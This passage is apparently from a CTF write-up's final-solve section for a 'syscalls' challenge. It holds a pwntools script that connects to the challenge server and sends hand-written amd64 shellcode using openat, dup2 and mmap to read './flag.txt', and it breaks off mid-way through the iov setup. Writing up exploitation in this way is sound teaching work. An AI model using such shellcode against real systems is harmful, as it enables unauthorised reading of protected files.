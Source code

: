 ### Final Solve

All thats left to do is convert the c code to assembly. Big shoutout to my teammate Xen0s for his help with the assembly conversion. The trickiest part is setting up the iov object. We need 2 pointers, so we can simulate this by pushing the values we need onto the stack. Here is the final solve script with the assembly.

```python
#!/usr/bin/env python3

from pwn import *
context.arch = "amd64"

exe = ELF("./syscalls", checksec=False)
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("syscalls.chal.uiuc.tf", 1337, ssl=True)

    return r

def main():
    r = conn()
    payload = asm('''
	.global _start
    _start:
    .intel_syntax noprefix

    // openat
    xor rdi, rdi              
    mov rsi, 0x07478
    push rsi
    mov rsi,  0x742e67616c662f2e
    push rsi
    mov rsi, rsp
    xor rdx, rdx            
    mov rax, 257        
    mov rdi, -100       
    mov r10, -100              
    syscall                    

    // dup2
    mov rdi, 1
    mov rsi, 1001
    mov rax, 33
    syscall

    // mmap
    xor rdi, rdi
    mov rsi, 64
    mov rdx, 1
    mov r10, 2
    mov r8, 3
    xor r9, r9
    mov rax, 9
    syscall

    // iov
    mov rbx, 64
```